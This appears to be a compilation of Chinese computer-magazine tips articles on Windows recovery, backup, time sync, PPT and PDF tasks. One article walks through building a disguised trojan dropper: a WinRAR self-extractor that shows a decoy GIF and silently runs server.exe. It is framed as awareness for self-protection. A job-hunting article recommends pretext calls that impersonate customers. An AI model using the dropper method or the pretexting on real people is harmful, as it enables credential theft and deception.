第二步：稍等片刻后进入计算机修复环境，此时的系统是在内存中运行的，我们可以对磁盘进行任何操作。点击打开“命令提示符”（或Shift+F10），然后参照实例1中第二步并执行命令文件夹移动和联接命令，重启电脑后即可完成对“C:\Users”目录的移动了。

编辑有话说
其实如果熟悉DOS命令，你完全可以编写一个批处理，一次性将“C:\Users”、“C:\ProgramData”和“C:\Program Files”搬到D盘，并重建各种系统软链接。本文作者提供了一个一次性搬移的批处理工具供大家参考，下载地址为：http://dl.dbank.com/c0kOvpaxvf，要注意该批处理只能在WinPE环境下使用。
另外可能有人会问，是不是用类似的方法也能将“C:\Windows”中的一些文件夹（比如“WinSXS”、“Fonts”）从系统中分离出来，从而给系统瘦身？答案是否定的。原因是Windows系统中除了软链接，还有大量的硬链接，在硬链接的保护下Windows内的文件无法直接迁移而给系统瘦身。我们将在本刊的其他文章中讲述硬链接，敬请关注。

小提示：
用Win7光盘或WinPE U盘启动所进入WinPE系统，也是在内存中运行的，同样可以完成对“C:\Users”的迁移。

(文/金戈铁马)

## 巧妙绑定系统还原点

小谢使用的是Windows 7系统，昨天当他处理文件时，不小心将“我的文档”中的一个重要文档删除了，这让小谢很着急，丢失了这个文件，他可就麻烦大了。突然，小谢想起最近自己为系统创建过还原点，这下他放心了，丢失的文档肯定保存在还原点中。但是，将整个系统进行还原，来找回误删的文档，又显得有些小题大做。要是能将还原点映射为一个虚拟文件夹，不就可以自由的提取文件了吗？使用System Restore Explorer（简称SRE）这款免费的软件，实现上述想法一点都不难。



在SRE主窗口（如图）中列出所有可用的系统还原点，包括其创建的日期和描述信息。注意，其中带有“Manual”字样的为用户手工创建的还原点。小谢找到所需的还原点，点击“Mount”按钮，SRE即可将该还原点映射为虚拟文件夹，之后自动将其打开，显示该还原点中包含的所有文件信息，小谢从中很快找到了自己所需的文档，然后使用复制粘贴的方法，将其轻松提取了出来。使用完成后，小谢选择目标还原点，点击“Unmount”按钮，完成该还原点的卸载操作。当然，您可以使用上述方法，同时绑定多个还原点。细心的朋友会发现：当绑定还原点后，在C盘中回出现名称为“HarddiskVolumeShadowCopyN”的虚拟文件夹，其中的N为具体还原点编号。在其中包含的就是对应还原点的内容。此外，SRE还提供了还原点删除功能，点击“Delete”按钮，可以删除对应的还原点。

(文/郭建伟)

## 改造WinRE 从隐藏分区安装Win7

Win7用户都知道，启动过程中按F8进入高级启动选项，它的第一项是“修复计算机”，进入该项后就可以进入系统恢复环境，这就是WinRE，全称Windows Recovery Environment（Windows恢复环境），是在Windows PE基础上发展而来的恢复平台。一般情况下，WinRE提供了启动修复、系统还原、系统映像恢复、内存诊断以及命令提示符等五项功能（如图1）。事实上，我们还可以给WinRE添加更多自定义的功能，让它变得更加强大。



### 1. 给WinRE添加系统安装功能（启动按F8→从硬盘安装Win7）

如今购买笔记本电脑都不再直接提供Win7安装光盘，因为厂商已将系统安装程序内置到恢复分区中，这就是俗话说的“一键还原”服务。但DIY电脑一般不会提供这样的服务，安装Win7只能用光驱，但如果光盘坏掉或者你压根没有配置光驱，重装系统就是一件麻烦事。当然，你自己可以制作一个启动U盘，不过U盘也可能随时丢失或坏掉，这也并非万全之策。实际上，我们可以手动给WinRE添加一个“Windows 7安装”功能，让它直接调用硬盘上的install.wim映像来安装新系统。

- 第1步：准备一个Win7的ISO镜像，用UltraISO或WinRAR打开该ISO文件，并将“sources”文件夹中Install.wim文件拷贝到非系统分区的某个文件夹中，比如D:\WinRE。
- 第2步：以管理员权限运行cmd打开命令输入窗口，依次执行以下命令：
reagentc /setosimage /path d:\winre
reagentc /enable
- 第3步：重启系统并按F8，选择“修复计算机”进入WinRE环境，这时在工具面板上就会有一个“重新安装Windows”的选项（如图2）。如果你要重装系统，那么就可以点选该选项，然后点击“是”即可重装系统。当然，除了在启动时按F8进入WinRE重装系统外，你还可以在Win7系统中打开“控制面板→系统和安全→备份和还原”，点击“恢复系统设置或计算机”打开系统还原面板，点击“高级恢复方法”，在弹出的窗口中“重新安装Windows（需要Windows安装光盘）”后系统不再需要插入光盘（如图3），而是读取D:\WinRE中的映像进行重装。



- 第4步：重装完成后进入新系统，此时会弹出一个“恢复操作已完成。是否还原用户文件夹”的提示（如图4）。如果你在重装之前有做过用户文件备份，那么可以点击“还原我的文件”就可以还原该备份。另外，由于原来的Windows会被安装程序保存到系统盘的“Windows.old”文件夹中，这个文件夹会占用较大的空间，在系统中直接删除即可。





小提示：
★映像文件install.wim不能存放在系统盘上，否则将无法安装系统。而且映像文件一定要是install.wim，否则将无法被Windows安装程序所识别。
★除了使用原始的install.wim，我们也可以使用自己制作或第三方定制的系统映像，这样可以有效减少重新安装操作系统的时间。

### 2. “Win7一键还原”自己造（启动按F11→从隐藏分区中重装Win7）

刚才我们用reagentc命令给WinRE添加了一个系统安装功能，实际上这个工具还有其他的用法，它可以自定义WinRE的位置，甚至可以读取隐藏分区中映像文件。大家可能知道Win7的WinRE系统实际上是保存在系统根目录下，由boot.sdi和winre.wim这两个文件组成（如图5）。下面，我们把boot.sdi、winre.wim以及install.wim放置在一个隐藏分区内，并配置一个激活的按键（比如F11），DIY一个“一键还原”系统。

- 第1步：建立一个恢复分区。在Win7桌面的“计算机”上右键选择“管理”，在“计算机管理”窗口中选择“存储→磁盘管理”，在整个磁盘后面划出一个用于存储boot.sdi、winre.wim以及install.wim等三个文件的恢复分区（至少为3GB），分配一个盘符（比如R）并采用NTFS文件系统格式化该分区。
- 第2步：拷贝WinRE镜像和Win7镜像到恢复分区。自定义的winre.wim可以存储在任何驱动器上，但必须按“\Recovery\WindowsRE”的目录结构放置该文件，否则系统将无法识别。因此我们要在恢复分区中建立一个两级的目录（即R:\Recovery\WindowsRE），然后把WinRE镜像（boot.sdi和winre.wim，在系统盘的“Recovery”文件夹中）以及Win7镜像（install.wim）拷贝到该目录中。
- 第3步：配置WinRE启动路径和恢复环境。以管理员打开cmd命令输入窗口，依次键入以下命令：
Reagentc /disable （停止当前的WinRE）
Reagentc /Setreimage /Path R:\Recovery\WindowsRE /bootkey 8500 （重新定义WinRE的启动路径，指定F11为激活按键）
Reagentc /Setosimage /Path R:\Recovery\WindowsRE （指定WinRE启动Win7安装镜像的路径）
Reagentc /enable （激活重新配置的WinRE）
- 第4步：将R分区设置为隐藏分区。继续在刚才打开的cmd命令输入窗口中，依次键入以下命令：
diskpart （进入diskpart磁盘管理环境）
sel vol r （选择R分区）
remove letter=r dismount （卸载R分区盘符）
set id=27 override （设置分区类型）
exit
- 第5步：由于隐藏分区在磁盘管理中是删除不了的，也不能进行格式化，而我们将WinRE系统和Win7映像文件都放置这里面，就可以防止误操作把它给删除了，安全性得到了很好的保障（如图6）。如果你要重装系统，那么在启动过程中按F11激活WinRE，然后在系统选项面板上选择“重新安装Windows”即可，而且重装后WinRE系统也不需要重新进行配置，非常方便。

小提示：
★在Diskpart环境中，用set命令可以设置所选分区的类型。其中，27代表恢复分区，而普通分区代码为07；恢复分区默认是不接受盘符的，如果要将恢复分区变成普通分区，则命令为“set id=07 override”。
注：Reagentc命令的“/bootkey”参数是用于指定在系统启动期间按下某个键时激活WinRE，常用的自定义按键代码如下：

| 按键 | 扫描代码 |
| :--- | :--- |
| F1 | 3b00 |
| F2 | 3c00 |
| F3 | 3d00 |
| F4 | 3e00 |
| F5 | （已预留）不使用 |
| F6 | 4000 |
| F7 | 4100 |
| F8 | （已预留）不使用 |
| F9 | 4300 |
| F10 | 4400 |
| F11 | 8500 |
| F12 | 8600 |

（文/金戈铁马）





## 图片文件捆绑木马揭秘

听说图片文件可以携带木马侵入用户的电脑图谋不轨，但一直没有亲自遇到过。上星期遇到的事情，让我有机会亲身经历了与木马图片的正面碰撞，彻底解开了这一谜团。

### 偶遇木马

某日，朋友突然向我求救，说网络游戏的号被盗了。由于朋友是在家上网的，排除了在公共场所账号和密码被别人偷窥的可能。据朋友说，被盗之前的半日内她一直没有安装什么软件，也没有上网浏览，只是在埋头用Word写工作总结，但在被盗的前一个小时，她根据自动通知栏内的信息，收到一封精美的邮件，附件中显示有一幅照片的打包文件，邮件正文声称说这幅图片是不明飞行物扔下来的稀世珍宝的照片。根据这封邮件驴唇不对马嘴的描述，朋友怀疑是不是这封邮件有问题。我了解到，收到邮件后，朋友是用WinXP自带的“Windows图片和传真查看器”打开的照片，并肯定这是一幅照片文件没问题，而且看得清清楚楚后缀名是.gif格式。电话中得知，朋友的那封邮件还在。于是，我让朋友把那封邮件给我转发一封，我要看个究竟。因为已经怀疑问题发生在这封邮件上，所以我对邮件内容十分小心谨慎。由于怀疑问题发生在这封邮件的图片附件上，所以，我根本不打算去直接浏览这幅图片。

### 分析木马

打开邮件，解压附件中的RAR压缩包后，我发现了附件中的那个文件其实并不是朋友所说的gif文件，命名是一个exe文件，文件名是“新奇照片.gif.exe”，并且它的图标也是图片文件的图标。这下我明白了，原来朋友的电脑使用了系统默认的开启“隐藏已知文件类型的扩展名”的选项（在“我的电脑”窗口之“工具→文件夹选项→查看→高级设置”中）（见图1），所以她告诉我的后缀名gif其实不是真正的文件后缀名。这只是一个假象。而我的电脑，为了防止恶意软件作怪，文件名后缀显示和隐含文件显示这两个选项早已被我打开了，因而对收到的任何在后缀名上做过手脚的文件均一览无余。知道问题可能在这个文件的后缀上，问题就好办了。我不打算直接运行这个exe文件，但是，我要剖开这个文件看看它里面到底藏有什么阴谋。我首先没有把问题的制造者想得太高，我怀疑这个exe文件是否为一个可以直接用某种压缩软件解开查看的压缩包。于是我用电脑中现有的WinRAR来尝试查看，我用鼠标右键点击这个文件，发现竟然可以用WinRAR打开，发现里面含有两个文件，一个是“新奇照片.gif”，另一个则是“server.exe”，不用问，可以肯定地说问题就在于这个server.exe程序了，十有八九就是它窃取了我朋友的游戏密码。



### 解密木马

现在我就根据WinRAR制作捆绑程序的功能，为大家解密这个带有木马的“图片”制作过程。首先要有一个ICO图标文件，必须是GIF类的图标文件，这是用来迷惑人用的。使用这个图标可使制作后的文件具有和GIF一样的图标，这个图标可以使用专门的图标提取软件进行提取；然后准备好木马程序server.exe（自编的或购买的）。在资源管理器中，把图片文件和server.exe木马程序同时选中，点击右键，选择“WinRAR→添加到压缩文件”，在“压缩文件名”框中输入压缩后的文件名，比如：“新奇照片.gif.exe”，根据自己的需要选择“压缩方式”（如图2）；然后点击“高级”标签，选择“自解压选项”（如图3），在“解压路径”中填入你需要解压的路径，这里填“%systemroot%\temp”（不包括引号），表示解压缩到系统安装目录下的temp（临时文件）文件夹下，并且在“安装程序”的“解压后运行”输入“server.exe”（不包括引号），在“解压前运行”输入“新奇照片.gif”（不包括引号）（如图4），然后切换到“文本和图标”标签，在“从文件加载自解压文件图标”中通过“浏览”按钮加载先前准备好的ICO图标（如图5），然后按两次“确定”完成压缩过程。这样，带有木马自动运行功能和图片显示功能的exe压缩包就做好了。









### 木马伪装

如果点击运行了这个文件，在解压缩前将会打开“新奇照片.gif”这个文件，造成用户对文件判断的假象，一般人都会认为它就是一个图片文件，但没有想到的是，在图片显示之后，紧接着会自动运行木马程序server.exe，而这个过程是在后台默默进行的。server.exe设计这将它设计为不显示任何信息的程序，再加上压缩文件时候选中“高级自解压选项”窗口中“模式”标签下的“全部隐藏”选项（如图6），因而用户什么也感觉不到。



知道了这个制作过程，大家对以后收到的不明照片，就可以轻松判断了。不过，在这里，解密木马捆绑是希望大家了解其原理，保护自己，希望广大读者不要将此技术用到非法用途之上。
（文/刘英）

## 让崩溃的Windows系统回光返照

Windows系统出问题属于再正常不过的事情了，用户也基本习以为常了，从“最后一次正确启动”到“安全模式”，再到“WinRE”，许多用户已经把修复的功夫练得炉火纯青。老赵在单位中常常扮演着救火队员的角色，一直寻思着如何解决系统崩溃后的恢复问题，这不他寻遍网络、千挑万选终于找到了一款让他比较称心的软件— Keriver 1-Click Restore（以下简称K1CR, 下载地址: http://www.keriver.com），它的主要功能就是让崩溃的Windows系统回光返照。

### 1. 先给系统来一次快照

K1CR的安装过程稍显复杂，在选择好安装目录之后，还需要选择“保存进度文件的盘符”，用来保存被快照后的文件，单击“下一步”按钮。K1CR会在电脑引导区加入其控制台程序（如果系统中装有360等系统防护软件，会发生误报，此时放行即可），使其Windows启动前先运行。
然后软件会对系统进行第一次快照，设置好快照的保存位置后即可进行快照扫描，这个过程比较长。快照完成后重新启动计算机软件会生效。
生效后会发现在Windows启动之前多了一个引导菜单，该引导菜单实际上利用了经过修改的GRUB4DOS生成，在该菜单中有5个选项，依次为“正常启动计算机”（Boot up the computer normally）、“还原计算机到一个快照”（Restore the computer to a snapshot）、“启动系统”（Boot up Windows7/xp）、“重启计算机”（Restart the computer）、“关闭计算机”（Power off the computer）。重新启动后可以选择“Boot up the computer normally”项或者“Boot up Windows7/xp”项，都可以正常进入Windows系统。

### 2. 再来多次进行增量备份

在系统任务栏中右击K1CR图标，选择“创建新进度”命令，输入“新进度名”，再单击“高级”按钮，在弹出的窗口中可以看到备份的方式有三种：“基准进度”指备份全盘，K1CR安装后第一次备份就是使用这一种方式；“增量进度”是指备份系统盘中已发生变化的内容；“差异备份”是指针对系统盘发生变化的内容，更新最近一次完整快照文件的内容。选择后单击“下一步”按钮，即为根据相应方式对系统进行一次新的快照，其过程中会显示进度和剩余时间等信息。

### 3. 系统恢复贼轻松

如果系统遭遇不测，恢复的方式有多种，最简单的就是在启动菜单中选择“Restore the computer to a snapshot”命令，根据提示选择好相应的快照文件进行系统恢复。
如果能进入Windows系统，则可在K1CR的右键菜单中选择“从进度中恢复文件”，则会弹出对话框，在该窗口中可以看到K1CR会将快照文件映射成一个驱动器盘符，这个盘符可选自未用的字母如I，单击“打开”按钮后在弹出提示窗口单击“确定”。之后打开资源管理器，在I盘中就可以像浏览普通文件一样，直接可以将需要的文件从中复制出来，然后恢复到系统中。恢复完成后，可在鼠标右键中选择“关闭进度文件”命令。
如果系统已进入不了，则可以在另一台同系统的机器上安装K1CR，利用其提供的“创建可启动救援盘”功能创建救援光盘或U盘，通过该盘启动后可以恢复之前的备份。当然最好是安装完K1CR立刻做一张救援盘。
自此，老赵给单位的每台机器上都装上了K1CR，有人电脑出现崩溃时，他轻松地就给解决了。
（文/鞠华英）

## 换个思路 Win7重要资料先转移

朋友小蔡打电话让我去给她诊一下电脑，我到了一看她的爱机果然病得不轻，运行起来慢如蜗牛。我说：简单，系统重装，十来分钟就搞定。她说，如果重装我还用你来，我自己找张光盘早就搞定了。我问为何，她说重装之后之前的很多个人资料和个人设置都会被清理得一干二净，想要回到熟悉的电脑环境还需要重新进行一番设置，这个时间可能比安装过程所用时间还要长。如果安装之前能把熟悉的配置文件保存起来，重装之后立刻恢复，相信重装是一部分用户的不二选择。笔者就推荐了几款小软件帮她完成心愿，在安装之前将这些默认位置的资料转移出去。

### “用户资料转移器”轻松方便

与系统自带的“Windows轻松传送”相比，“用户资料转移器”显得更加小巧，备份的内容相对也少些，能自动转移收藏夹、我的文档、网页缓存、Cookies信息等个人文件夹资料信息，预防当重装系统后个人资料的丢失。而且能够自行识别操作系统，自动识别当前用户，还支持XP和Win7，适合于那些对环境要求不太高的朋友。
第1步：该软件是个绿色软件，在Window 7下使用管理员权限运行后，在程序主界面的“操作”选项卡中，会自动弹出需要转移资料的文件选项，根据自己需要勾选需要转移保存的资料，对于那些习惯将文件保存到收藏夹或者我的图片等文件夹中的朋友，默认的选项可以全部都勾上。如果为了避免系统盘不停增大，还可将上网缓存文件等选上。
第2步：然后在底部的“目标路径”一栏中设置自定义备份的路径，在“转移选项”中根据自己的实际需要选择“清理临时文件”等项，所有设置完成后，点击“开始转移”按钮就OK了。
小提示：
由于这个小软件是通过改变注册表的相关选项来完成的，故像360安全卫士等软件会提示，“允许”即可。

### 把Win7中特殊文件夹换个位置

Special Folders Manager 2（以下简称SFM）可以将Win7中的特殊文件夹的位置更改到其它地方，与“用户资料转移器”相比，可转移的项目更多。
第1步：软件运行后，在主界面中单击“List All special Folders”按钮，可以看到列出的特殊文件夹达104个之多，这是笔者始料未及的。单击“Previous”按钮回到主界面。
第2步：单击“Move special Folders”按钮，在打开的界面找到想要改变位置的所有文件夹后，勾选与之对应的“Redirect”选项，单击“Next”按钮，进入移动规则设置，在界面中勾选下方的“Copy”选项，再单击“Next”按钮，保持界面中的所有选项不变，继续单击“Next”按钮，打开目标驱动器选择界面，找一个剩余空间较大的分区作为目标驱动器后勾选。
第3步：单击“Next”按钮，软件开始对指定的文件夹进行处理，处理完成后，所选的特殊文件夹的位置及其文件，便被挪移到了新的地方，最后关掉程序界面完成。倘若想还原某个文件夹的位置，只需要主界面中选择“Restore Special Folders Locations”选项，然后按提示操作即可。

### 另建程序安装包，不再怕重装

系统重装，每个人都会遇到，尽管你可以保存软件的安装程序，重新完系统后再安装到电脑，但其中的一些个性设置无法保存。而使用COMODO programs Manager，我们就完全可以不保留安装备份，因为它能给已被卸载的软件重建一个安装包，当通过安装包安装软件后，其中的个性设置也得以保留。
重建软件安装包时，只需在已安装软件列表中选中要保留的软件，界面右下方会出现Make Install按钮，该按钮的作用便是重建要卸载的软件的安装包。单击Make Install按钮，打开“浏览文件夹”对话框，指定安装包的保存位置，单击“确定”按钮，便可为要保留的软件重新创建一个安装包，其中包含了对该软件所做的所有个性设置。重装完系统后，再双击安装包执行安装程序就可以了。
有了以上三款软件的帮助，资料、程序、特殊文件一个都不会少!
（文/鞠华英）

## “行动”要一致 时间要统一

上午，经理耷拉着脑袋从老总办公室出来，嘴上还不停嘟咕着，像泄了气的皮球，显然是吃了一顿狂批。原来，办公室下发重要通知明确今天上午10点召开领导碰头会，但由于经理计算机系统时间慢了40分钟，耽误了参会，后果很严重。回来后，经理对我一纸令下，不管采取什么办法，两天内解决公司内网时间同步问题。
现在很多公司或政府机关内部局域网都与互联网物理隔离，导致计算机系统时间无法及时正确地校正，而网络无纸化办公，要求客户端、服务端系统时间必须一致，否则公文类流程或邮件等都无法流转。
第一步：在装有Windows Server 2003的邮件服务器上（IP地址为：192.168.0.10），双击桌面右下角系统时间，在弹出的“日期和时间属性”窗口中，切换到“Internet时间”选项卡，页里中设置自动与Internet时间服务器同步，显然Windows Server 2003系统默认是作为时间同步客户端工作的，所以，必须通过修改设置，使系统作为时间同步服务端。
第二步：在邮件服务器上，单击“开始→运行”，输入“regedit”确定后打开“注册表”，定位到HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer目录，将右侧窗口中的“Enabled”键值设置为“1”，意思为启用时间同步服务器功能。
第三步：继续在邮件服务器上修改注册表键值，定位到HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\Config目录，将右侧窗口中的“AnnounceFlags”键值设置为“5”，表示强制主机将它自身宣布为可靠的时间源，使用主机CMOS时钟。
第四步：在邮件服务器上重启Win32Time服务，鼠标右键单击“我的电脑”在菜单中选择“管理”在弹出的“计算机管理”左侧窗口中，单击“服务”，重启Win32Time服务。
在客户端上，双击桌面右下角系统时间，在弹出的“日期和时间属性”窗口中，切换到“Internet时间”选项卡，将“服务器”地址设置为“192.168.0.10”，单击“立即更新”，此时窗口会提示与192.168.0.10成功同步时间。
默认情况下，时间同步周期自动为7天，如想设置为更短，可在客户端注册表中，修改HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient目录中的“SpecialPollInterval”时间间隔即可（单位为秒，43200为12小时）。
（文/陈孝勤）

# 不装PPT软件 幻灯片照样播放

每一台电脑上不一定都装有微软的Office软件。遇到要演示的电脑上没有安装PPT软件，或者安装了软件但临时出现问题怎么办？难道非得再装一回微软的大块头才能演示不成？其实，在制作PPT时，如果想到这种意外情况的话，制作一份不需要安装PPT就能演示的幻灯片，问题就不会发生了。下面介绍两种常用实现方法。

## 方法一：打包生成自动演示程序

为了实现异地演示文稿的顺利播放，微软早在PowerPoint 97版开始，就内置了演示文稿的打包功能。在PowerPoint 2003中，这一功能得到了更大的改进和加强，它可以将演示文稿、播放器及相关的配置文件直接刻录到光盘上，制作成一个具有自动播放功能的光盘，脱离PPT系统单独运行。当然，现在使用优盘很普遍，如果你习惯于使用优盘，同样可以把它拷贝在优盘中使用，不需要刻光盘也成。

- 第一步：启动PowerPoint 2003，打开需要打包刻录的PPT文件。依次单击菜单命令“文件→打包成CD”，弹出“打包成CD”对话框，命名演示光盘的名称。
- 第二步：如果有多个演示文稿，可以单击“添加文件”按钮进行添加。一般情况下，演示文稿的默认播放顺序是按照你添加文稿的先后顺序排列的，但你可以对播放顺序进行调整。方法是，先选定一个演示文稿，然后单击向上或向下的箭头直至将其调整到合适的位置。
- 第三步：如果要将当前的幻灯片文件刻录成自动演示光盘，这时又没有其他特殊的设置，那么，只需在刻录机中放入空刻录盘，然后直接单击“复制到CD”进行刻录即可。
- 第四步：如果要把当前的幻灯片文件发布到优盘或其他移动设备中，则选择“复制到文件夹”按钮确定目录进行发布即可。

## 补充说明：

发布之前，还可以通过“选项”按钮进入选项界面，进行几项非常有用的个性化设置。

1.  在演示文稿的播放方式中，如果选择“按指定顺序自动播放所有的演示文稿”，即播放顺序为自动，不能选择；如果选择“让用户自动选择要浏览的文稿”，则用户可在现场临时决定播放顺序。
2.  如果在PPT文档中使用了比较特殊的字体，为避免演示电脑上不存在这种字体而影响显示效果，必须勾选“嵌入的TrueType字体”项。
3.  为了保证PPT演示文稿的安全性，可以在“帮助保护PowerPoint文件”中分别设置打开或修改文稿的密码。

PPT文件发布完成之后，打开CD光盘或生成文件的目标文件夹，你会发现那里有多个PPT播放时所需要的文件，其中有一个“play.bat”文件，双击它即可在任意一台电脑上自动播放PPT了。

## 方法二：与PPT绿色播放器一同发布

除了可以直接用PowerPoint软件来发布独立运行的PPT幻灯片外，我们还可以借助于微软提供的PowerPoint独立播放器来发布PPT幻灯片。当PPT制作完成后，连同这个播放器，一同拷贝到优盘或目标文件夹下，就可以随时随地用它来打开和演示我们的PPT文档了。PowerPoint播放器还支持播放列表，我们可以创建自己的播放列表来实现多个幻灯片文件的自动演示。操作步骤如下：

- 第一步：用记事本程序编辑一个新文本文件，输入每个演示文稿的路径和文件名（含文件的扩展名，如：“D:\演示稿01.ppt”），一行输入一个幻灯片文件的路径，输入的顺序即为幻灯片的播放顺序。
- 第二步：将刚才编辑的列表文本文件保存为lst扩展名的文件，也可以存盘后将扩展名改为lst。
- 第三步：打开PPT播放器软件，选择“文件类型”下拉列表中的“播放列表 (.lst)”，然后选择要播放的列表文件，单击“显示”按钮就可以播放了。如果想要编辑播放列表的时候，只要重新用记事本程序对列表文件进行修改就可以了。

（文/金生）

# 下载图书无目录 借助软件自己加

如果你下载了一本没有目录或目录做得不到位的扫描版PDF电子书，而这又是一本有好几百页而且很有珍藏价值的厚重之物，今后要选择内容阅读将是一件费力的事情。几百页的一本书，要翻到自己想要的根本不知道页码的那一章节谈何容易！其实，我们可以想想办法，自己给它加上目录书签。可谓是一劳永逸之举！

用PDF类专业编辑软件如Acrobat编辑器来增加目录也未尝不可，但对我们普通用户来讲，选择一款简单易用的工具软件将更加合适。下面就以用一款绿色便携版软件PDF-Tools 4.0为一本PDF电子书添加目录为例，说明其具体实现过程。

- 第一步：启动PDF-Tools 4.0软件，点击软件窗口左侧的“书签”按钮，此时窗口右侧马上会列出这项任务的操作步骤提要。点击“开始”按钮，进入操作过程。
- 第二步：通过窗口下端的“浏览”按钮打开需要处理的PDF电子书文件，点击“下一步”继续。
- 第三步：在“编辑书签”页面，点击“添加”按钮添加目录书签。输入书签的标题以及该标题所对应的正文所在的页码。标题所在的正文页码可以用PDF阅读器打开该图书来逐一浏览，用以上办法逐一进行添加。
- 第四步：所有目录标签均添加完成后，点击“下一步”按钮设置PDF规格以及打开文档时的显示页面显示方式等参数。
- 第五步：进入下一步操作，确定添加标签后的PDF电子书保存位置和文件名。然后点击“处理”按钮开始输出文件。
- 第六步：之后，打开编辑后的PDF文档，我们已经可以看到窗口左侧出现编辑好的目录书签了。

这样，一次劳动之后，自己日后阅读，或者共享给别人阅读，就再也不用为找到一个章节而费事地前后翻腾页面了。

## 小提示：

PDF-Tools 4.0不单单能干上面所说的一件事。其实它是一个PDF优化与处理的工具合集，这个软件的功能很强大，最有用的功能就是它不但可以编辑制作PDF电子书的目录书签，还可以对PDF文件进行分割合并以及对页面或图片进行随意提取，是我们处理电子书的得力助手。

（文/海隆）

# 制作资料关键词索引

搜集了许多文章，为了便于查找，我们通常是给这些文章列一个目录。目录查找是使用顺序式分类查找，对于查找某一章节的内容时比较方便，但是，如果你要查找某个关键词所涉及到的文章，例如要查找所有关于“下载”的文章，若目录中没有“下载”这个分类，用目录查找恐怕就显得力不从心了。因此，我们常常会看到，一些图书或资料说明书，除了提供必要的目录之外，还要在后面附上一个关键词索引。比如，要查找下载类的文章，只要在关键词列表中查找“下载”这个关键词就可以了。

那么，如果我搜集了一大批文章，如何才能制作这样一个便于查询的关键词索引表呢？下面我就说说在Excel表格中制作关键词索引的具体方法。

## 一、抽取所有文章关键词

首先，将所有的文章题目都输入或复制到Excel的一列单元格中。为了排序的方便和今后操作不会乱套，我们给标题起个表头叫做“文章标题”。在标题列表之前再加上一个存放序号的列“序号”。然后，在文章标题列的后面增加一个关键词列，叫做“第一关键词”。如果一篇文章要概括出多个关键词，则需要增加更多的关键词列，如“第二关键词”、“第三关键词”等等。

接下来，给每篇文章概括出一个或多个合适的关键词。比如文章“清理系统垃圾这样更安全”一文，可以抽出“系统垃圾”、“清理”、“安全”等关键词。当然，对于某些标题上概括不明显的文章，可以不使用标题中的词语作为关键词，而需要另行概括出一个词语作为文章的关键词。例如，“屏幕一分钟换一个美女”一文，其实是说图片显示的，与美女不美女关系不大，所以与其用“美女”作为关键词，还不如用“更换壁纸”之类的关键词更到位。这样，有的文章可能有三个关键词，有的文章有两个关键词，还有的只有一个关键词。

## 二、所有关键词合为一列

因为有的文章有多个关键词，而多个关键词是分别存储在多个列当中的，这样不便于对关键词进行统一排序。因此，我们需要首先对第二列关键词或之后的其他列关键词分别进行排序，让每一列中含有关关键词的记录都紧挨在一起排列；接下来，将所有第二列关键词非空的记录统统复制到表格的末尾。与此同时，删除这些记录中第二列关键词之外的所有关键词；第三列或更多列出现关键词的记录也如是照做。排序、复制追加、删除。然后，把所有位于非第一关键词列的关键词，统统移动到同记录的第一关键词列当中，并删除第一关键词列之外的所有关键词。这样一来，只剩下第一关键词列中有内容存在，其他关键词列中的内容全部被清空了。需要注意的是，因为有的文章出现多个关键词，因此，这样操作后就会出现在文章标题一列中的文章标题会多次重复的现象，这是正常合理的，不需担心。

## 三、对关键词进行排序

现在，整个表格只剩下序号、文章标题、第一关键词三个列有内容。我们以第一关键词这一列对整个表格进行排序。排序方式用系统默认的方式即可。

## 四、排序结果分组排版

对整个表格以关键词列进行排序。从排序结果中，你可以看出，排在最前面的是数字和阿拉伯字母的关键词，接下来往后的是按关键词中第一个汉字的音序以英语字母从a到z排列。这样，我们可以将排序的结果划分为1组数字、1组字母、23组汉字（从a到z没有以i、u和v字母开头的汉字）共25个部分。

如果要打印索引表，那么，将上述排序所得的25个部分划成25块排版打印即可。

（文/刘英）

# 通过部门主管 直接找到工作

转眼间求职“金五银六”就过去一半了，眼瞅着身边的朋友陆陆续续得到了offer，自己海投出去的简历还是了无音讯，难道是自己的专业实在冷门？还是简历做得实在很糟糕？其实很可能是你没有找到投递简历的关键——具有决策权的部门主管，有朋友纳闷了，我们又不是求职单位的员工，如何弄到相关部门主管的联系方式呢？答案嘛，就取决于你的寻找方式了！

1.  **海选**。现在招聘网站提供的信息非常丰富，比如www.51job.com，基本涵盖了500强企业用人信息，我们当然可以在网站上先寻找适合的单位以及适合的职位，并且毫不吝惜发送一份简历。
2.  **锁定目标**。有了求职方向后，光投递简历是没有用的。因为招聘你的人和最终管理你的人考虑的招聘出发点不同。既然网站上存在招聘信息，那么90%的可能是那个部门正缺人，当然不要相信所谓的“企业文化会贯彻企业的所有流程，招聘会依据企业文化招聘同类型的人才”，这种事只会发生在彼得·德鲁克的著作中。
    实际上招聘部门出发点基本就是对人员需求表的执行，而谁都不能保证具备需求表上条件的人就能胜任工作，我就碰到过人事部门为了避免女大学生入职后结婚生子，只招聘已婚女性的情况，所以在网站上看到自己心仪的职位只是知道那边招人，下一步就是想办法得到招聘职位的部门主管的联系方式，或者能联系到他的间接方法。最简单的方式就是在搜索引擎当中输入目标单位的名称，看看公司的主页上留的联系方式（一般情况是总台）。
3.  **集中火力**。找到公司主页联系方式离关键步骤只有半步了，可以装做客户打电话过去咨询问题，比如你想应聘销售工程师，拨通总机后告诉前台你想买产品（如果是IT工程师，就说需要维修、技术问题询问等等），之后前台肯定会将电话转到销售部某个员工的分机上，此时再换个角色，比如经理的朋友，但不知道他分机多少。
    至于方式吗？当然是仁者见仁，智者见智了。当你成功找到了部门主管后，先说明自己的情况，表明不得已才采用直接打电话的方法询问，这样别人会感到理解，如果他对你采取的求职方式感兴趣的话还会抽出时间问问你情况，并告知你下一步采取什么样的方式应聘。之后嘛，就该按部就班地参与公司正常面试流程了，当然因为你的特殊，公司的主管会特别关照你的呦！
    如果不凑巧，你找到的部门主管不认同你的行为，甚至认为你是个骗子，此时你的行为应该适可而止或者寻找其他方式。否则会给应聘单位造成不好的印象。

**编者按**：其实上述方法就是利用人循规蹈矩的思路弱点，找到对自己有利的人脉资源，正统点的说法就是猎头公司内部所谓的“社会工程学”——一种通过对他人本能反应、好奇心、信任等心理陷阱进行获取信息的方法。上述例子中我们首先通过网络资源与搜索引擎发现目标，然后利用公司员工心里客户至上的理念获得有用的联系方式。

